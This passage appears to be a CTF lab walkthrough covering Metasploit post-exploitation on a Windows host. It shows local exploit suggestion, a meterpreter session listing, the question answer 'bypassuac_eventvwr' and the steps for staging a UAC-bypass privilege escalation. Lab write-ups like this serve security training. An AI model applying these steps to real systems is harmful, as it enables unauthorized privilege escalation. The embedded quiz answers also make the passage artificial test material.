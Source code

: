 <p align="center"> <img width="800px" src="https://github.com/user-attachments/assets/e654c39c-7e38-4de6-824d-d4aea50890d0"> </p>

<br>

> 4.5. <em>Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*</em><br><a id='4.5'></a>
>> <code><strong>No answer needed</strong></code>

<br>

<p align="center"> <img width="800px" src="https://github.com/user-attachments/assets/5cf9fffe-98b8-49a5-b387-be90ef749018"> </p>


<br>

> 4.6. <em>Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?</em><br><a id='4.6'></a>
>> <code><strong>exploit/windows/local/bypassuac_eventvwr</strong></code>

<br>

<p align="center"> <img width="800px" src="https://github.com/user-attachments/assets/06704539-bfe8-473e-b88d-86fc77c9dbdc"> </p>


<br>

> 4.7. <em>Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell.</em><br><a id='4.7'></a>
>> <code><strong>No answer needed</strong></code>

<br>

<pre><code>meterpreter > meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/http/icecast_header) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  [THM AttackBox IP]:[THM AttackBox Port] -> [Target IP]:[Target Port] ([Target IP])

msf6 exploit(windows/http/icecast_header) > 
</code></pre>

<br>

> 4.8. <em>Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT`.</em><br><a id='4.8'></a>
>> <code><strong>No answer needed</strong></code>
